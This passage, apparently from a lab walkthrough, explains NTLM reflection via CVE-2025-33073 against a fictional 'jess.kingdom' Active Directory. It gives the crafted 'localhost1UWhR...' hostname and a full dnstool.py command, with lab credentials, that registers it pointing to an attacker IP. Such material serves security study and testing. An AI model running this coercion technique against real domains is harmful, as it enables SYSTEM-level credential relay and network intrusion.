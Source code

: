 </div>
## Context

The `PALACE-DC.jess.kingdom` domain controller has SMB signing enabled, and serves as the DNS server for the domain. The `SCRIPTORIUM.jess.kingdom` machine is a domain-joined machine that does not have SMB signing enabled. The attacker has the ability to create DNS records in the domain.

Furthermore, the DC has Active Directory Certificate Services (ADCS) installed and is vulnerable to `ESC8`.

![ctx](./assets/img/sysadmin/a4d122baa97922b1b76a927ba6ad855b.png)

The attacker's IP address is: `198.51.100.5`.

## Reflecting NTLM to Self

> NTLM Reflection can be thought of as an NTLM relay to self, which should not be possible.

[CVE-2025-33073](https://nvd.nist.gov/vuln/detail/CVE-2025-33073) makes use of a maliciously crafted DNS record to coerce `LSASS.exe` (running as `SYSTEM`) into authenticating to an attacker-controlled server with a `SYSTEM` token. An example of such a hostname is `localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` which will cause the server to perform "local" NTLM authentication to `localhost`.

The above DNS record can be used "as-is" for all domain-joined machines because `localhost` always triggers the localhost detection logic, this relieves the attacker of having to create a DNS record for each machine they want to exploit. The attacker can simply create a DNS record with the hostname `localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` and point it to their own IP address.

The downside to this approach is that `Kerberos` authentication will not be possible, as the `Negotiate` package will choose `NTLM` over `Kerberos`. For the following attack, we will be targeting the `SCRIPTORIUM.jess.kingdom` machine.

### Registering DNS

To register the DNS record, we can use [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py):

```bash
/opt/tools/krbrelayx/dnstool.py -u 'jess.kingdom\Doros_ARCHIVON' -p 'bO3n21E6rc' 10.3.20.31 -a 'add' -r 'localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA' -d '198.51.100.5'
```

![](./assets/img/sysadmin/4bc6c836aad19d1fc0d0f88818028ae6.png)
